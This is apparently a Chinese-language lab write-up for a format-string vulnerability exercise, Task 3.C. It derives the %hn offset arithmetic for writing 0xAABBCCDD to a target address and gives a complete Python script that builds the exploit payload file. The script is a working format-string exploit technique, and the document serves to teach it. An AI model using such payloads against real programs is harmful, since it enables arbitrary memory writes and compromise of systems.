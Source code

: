 
### Task 3.C: Change the value to 0xAABBCCDD

这次要修改的值非常大，所以没有办法像上面那样直接用`%n`写入，需要拆分成两部分通过`%hn`每次写入2bytes。由于0xAABBCCDD正好是递增的，可以直接先前2个byte写0xAABB，后2个byte写0xCCDD：

$0xAABB-4-4-4-62\times8=43199$

$0xCCDD-0xAABB=8738$（`%hn`不占位置）

并且由于是小端法，低位放在低地址，$0xCCDD$放在number处，高位在高地址，$0xAABB$放在number+2处。

整体payload：$target高2位地址+abcd（junk填充字节）+target低2位地址+format\ string$

format string：`s = "%.8x"*62 + "%.43199x" + "%hn" +"%.8738x"+"%hn"  # 0xAABB + %x +0xCCDD`

```python
#!/usr/bin/python3

import sys

# Initialize the content array

N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0

number = 0x080e5068  # target地址（小端法，读两个字节就是0x5068）

number2 = number+2  # target前2个字节地址

# little-endian

# high addr:0xAABB

content[0:4] = (number2).to_bytes(4, byteorder='little') 
# low addr:0xCCDD 因为payload中间有一个"%.8738x"，所以要放在8:12的位置
    
content[8:12] = (number).to_bytes(4, byteorder='little') 

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%.43199x" + "%hn" +"%.8738x"+"%hn"  # 0xAABB + %x +0xCCDD

# The line shows how to store the string s at offset 8
fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt	# 向后移动改成12

# Write the content to badfile
with open('badfile', 'wb') as f:
    f.write(content)
```
